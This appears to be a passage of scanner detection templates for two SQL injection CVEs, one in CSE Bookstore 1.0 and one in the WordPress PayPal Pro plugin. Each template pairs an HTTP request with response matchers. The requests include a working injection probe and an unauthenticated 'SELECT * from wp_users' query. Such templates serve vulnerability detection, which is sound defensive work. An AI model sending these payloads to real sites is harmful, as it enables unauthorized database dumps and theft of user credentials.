 - CSE Bookstore version 1.0 is vulnerable to time-based blind, boolean-based blind and OR error-based SQL injection in pubid parameter in bookPerPub.php. A successful exploitation of this vulnerability will lead to an attacker dumping the entire database.
- severity - critical
- tags - cve,cve2020,sqli,cse,edb,tenable

## Requests

### Step - 1

```
GET /ebook/bookPerPub.php?pubid=4' HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. get book price failed! You have an error in your SQL syntax
  2. Can't retrieve data You have an error in your SQL syntax
- condition - or

---

# WordPress PayPal Pro \<1.1.65 - SQL Injection

## Description

- WordPress PayPal Pro plugin before 1.1.65 is susceptible to SQL injection via the 'query' parameter which allows for any unauthenticated user to perform SQL queries with the results output to a web page in JSON format.
- severity - critical
- tags - wp-plugin,sqli,paypal,wpscan,cve,cve2020,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/?cffaction=get_data_from_database&query=SELECT%20\*%20from%20wp_users

### Matchers

**Type - word**

- words
  1. text/html
- part - header
